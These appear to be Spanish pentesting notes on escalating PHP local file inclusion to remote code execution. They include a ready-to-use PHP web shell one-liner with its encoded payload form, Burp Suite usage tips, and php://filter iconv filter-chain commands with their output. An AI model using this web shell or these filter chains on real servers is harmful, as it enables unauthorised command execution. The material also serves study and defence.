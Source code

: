 Problema: no nos interpreta ciertos códigos

Solución: URLenodear con ctrl+u en repeat de BurpSuite y ya nos vale, además añadir etiquetas preformateadas `<pre>`

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>  --> PD9waHAgZWNobyAiPHByZT4iIC4gc2hlbGxfZXhlYygkX0dFVFsiY21kIl0pIC4gIjwvcHJlPiI7ID8+  --> al tener valores especiales como el más (+) no nos lo reocnocía bien por eso lo de URLencodear --> a esto aplicamos: PD9waHAgZWNobyAiPHByZT4iIC4gc2hlbGxfZXhlYygkX0dFVFsiY21kIl0pIC4gIjwvcHJlPiI7ID8%2b*&cmd=whoami*
```
## Prueba de concepto LFI > RCE 

Acción 1: 

```bash
php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR/resource=/tmp/test');"; echo
```

Resultado: 

```bash
)CYmFzZTY0==
```

Explicación: teniamos codificado en base64 en un archivo test lo siguiente: `YmFzZTY0==` al aplicar el wrapper `php://filter/convert.iconv.UTF8.CSISO2022KR` vemos que se añaden dos caracteres al inicio `)C` . Esto nos permite encadenar wrappers para arbitrariamente incluir caracteres y conseguir ejecutar un *RCE*

Extra: vemos en hexadecimal los caracteres añadidos

```bash
php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR/resource=/tmp/test');" | xxd

00000000: 1b24 2943 596d 467a 5a54 5930 3d3d 0a    .$)CYmFzZTY0==.
```

Acción 2: 

```bash 
php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode/resource=/tmp/test');"; echo
```

Resultado: 

```bash 
CYmFzZTY
```

Explicación: encadenando el siguiente *wrapper* `php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode` , al archivo test le quitamos los iguales dejando la codificación de 'base64' por defecto 'YmFzZTY' y como vemos le añade un caracter (C) al principio confirmando una forma limpia de poder hacer RCE

Acción 3: ejemplo de **Filter Chains**
